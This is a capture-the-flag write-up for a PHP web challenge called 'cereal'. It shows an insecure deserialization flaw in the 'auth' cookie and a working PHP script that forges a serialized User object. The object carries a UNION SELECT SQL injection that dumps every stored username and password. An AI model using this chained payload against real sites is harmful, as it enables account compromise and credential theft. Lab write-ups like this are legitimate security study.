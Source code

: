 # cereal
on opening the website, we see the front page looks like - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/e9c912be-6d72-4ea4-a22b-979178f51398)
here we see that we just need to put ```guest``` as username and ```password``` as password. 

In the source code, we can see that - 
```
<form action="authenticate.php" method="post">
				<label for="username">
					<i class="fas fa-user"></i>
				</label>
				<input type="text" name="username" placeholder="Username" id="username" required>
				<label for="password">
					<i class="fas fa-lock"></i>
				</label>
				<input type="password" name="password" placeholder="Password" id="password" required>
				<input type="submit" value="Login">
			</form>
```
the form leads to the input being sent to ```authenticate.php```
In authenticate.php, we see
```
$conn = new PDO('sqlite:../important.db');
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$query = "select * from users where `username` = :username AND `password` = :password";
$stmt = $conn->prepare($query);
$stmt->bindParam(':username', $username);
$stmt->bindParam(':password', $password);
```
username and password fields are safe from sqli in the login form.
then we also can see - 
```	setcookie($cookie_name, base64_encode(serialize($cookie)), time() + (86400 * 30), "/");```
here a new object of User class is initialised, serialised, base64 encoded and set as cookie. We can see a cookie with the name 'auth'
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/895de73b-1969-4d32-9ddf-72764971755a)
this holds the value of the base64 encoded serialized object.

Here we can see a clear <a href="https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a">php deserialisation</a> vulnerability. Now we need to find a method to make use of this vulnerability.
`home.php` has nothing interesting in it.
However, if we see `profile.php`
we see 
```
$cookie = unserialize(base64_decode($_COOKIE['auth']));
$row = $cookie->sendProfile();

$username = $row[0];
$email = $row[1];
$cereal = $row[2];
$date = date('Y-m-d H:i:s', $row[3]);
```
and
```
				<p>Your account details are below:</p>
				<table>
					<tr>
						<td>Username:</td>
						<td><?=htmlspecialchars($username, ENT_QUOTES)?></td>
					</tr>
					<tr>
						<td>Email:</td>
						<td><?=htmlspecialchars($email, ENT_QUOTES)?></td>
					</tr>
					<tr>
						<td>Account Creation Date:</td>
						<td><?=htmlspecialchars($date, ENT_QUOTES)?></td>
					</tr>
					<tr>
						<td>Favorite Cereal:</td>
						<td><?=htmlspecialchars($cereal, ENT_QUOTES)?></td>
					</tr>
				</table>
```

here we can see that details are being fetched and diplayed. But how?
in config.php, we see
```
public function refresh() {
	// Database connection
	$conn = new PDO('sqlite:../important.db');
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
	$query = "select username, email, favorite_cereal, creation_date from users where `id` = '" . $this->id . "' AND `username` = '" . $this->username . "'";
	$stmt = $conn->prepare($query);
	$stmt->execute();
	$row = $stmt->fetch();

	$this->profile = $row;
}
```
here, we can see username and id are values that are vulnerable to sqli, however we also see later in config.php that - 
```
public function validate() {
	// Database connection
	$conn = new PDO('sqlite:../important.db');
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
	$query = "select * from users where `username` = :username";
	$stmt = $conn->prepare($query);
	$stmt->bindParam(':username', $this->username);
	$stmt->execute();
	$row = $stmt->fetch();

	if (md5($row['password']) !== $this->password) {
		header('Location: logout.php');
		exit;
	}
}
```
username is not vulnerable to sqli since it is checked twice to make sure the username entered is valid. Hence now we know where to do the sqli while exploiting the deserialisation vulerability.

# solve
I made another class, similar to the `User` class in php and serialized it using the script -
```
<?php
class User {
  public $username = '';
        public $id = -1;
        protected $password = '';
        protected $profile;

        function __construct(){
            $this->username="guest";
            $this->id="3' union select group_concat(username),group_concat(password),group_concat(favorite_cereal),creation_date from users -- #";
            $this->password="5f4dcc3b5aa765d61d8327deb882cf99";
        }
}

$u1= new User();
print(base64_encode(serialize($u1)));
?>
```
here in the `id` field, sqli is done. only the `group_concat(password)` part is relevant, I added the rest to make things look *nice* and match the number of columns being selected. Finally, I used `--` to comment out the rest of the line.
`password` variable is set to md5 hash of the string "password" since that is one of the fields that get selected for username validation and without this, the validiation will fail.

I set the output of this script as `auth` cookie - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/bc93b69a-43b9-467f-9d55-e5ce675e2130)
Finally I get the flag - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/74dc4528-ef05-4b48-a323-6b3614b2373d)

